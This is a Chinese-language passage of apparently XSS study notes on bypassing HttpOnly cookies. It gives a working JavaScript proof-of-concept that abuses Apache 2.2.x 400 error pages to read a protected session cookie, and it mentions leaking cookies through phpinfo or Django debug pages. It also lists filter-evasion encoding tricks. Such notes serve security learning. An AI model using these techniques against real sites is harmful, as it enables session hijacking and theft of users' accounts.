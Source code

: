 **实际例子**
后续添加

## bypass httponly

1. 利用调试信息，如：PHP 的 phpinfo() 和Django 的调试信息，里边都记录了 Cookie 的值，且标志了HttpOnly 的 Cookie 也同样可以获取到。
```
<?php
header("Set-Cookie: SESSIONID=ImAhttpOnlyCookie; path=/; httponly");
?>
<a href='phpinfo.php'>aa</a>
```

2. apache 400(Apache 2.2.0 – 2.2.21)
```
<?php
header("Set-Cookie: SESSIONID=ImAhttpOnlyCookie; path=/; httponly");
?>
<script type="text/javascript">
var today = new Date();
var expire = new Date();
expire.setTime(today.getTime() + 2000);
gotCookie=false;
padding="";
for (j=0;j<=1000;++j) {
    padding+="A";
}
for (i=0;i < 10; ++i) {
    document.cookie="z"+i+"="+padding+"; expires="+expire.toGMTString()+"; path=/;"
}

function handler() {
    if (!gotCookie && this.responseText.length > 1) {
    text = /(SESSIONID=[^;]*)/i.exec(this.responseText);
    alert(text[1]);
    gotCookie=true;
    }
}var xhr = new XMLHttpRequest();
xhr.onreadystatechange = handler;
xhr.open("GET", "/httponly.php");
xhr.send();
</script>
```

## Tricks
### 绕过方面
1. 正则匹配问题：
- 只匹配前半部分
- 只匹配后半部分

2. 几种编码：
- js编码
- html实体编码
- url编码
- String.fromCharCode编码
- js是大小写敏感的  但是html是大小写不敏感的
- ECMAscript规范，那么你应该会发现除了0x0A/0x0D以外U+2028/2029也可以作为换行符来使用。
参考：https://mathiasbynens.be/notes/javascript-escapes#hexadecimal
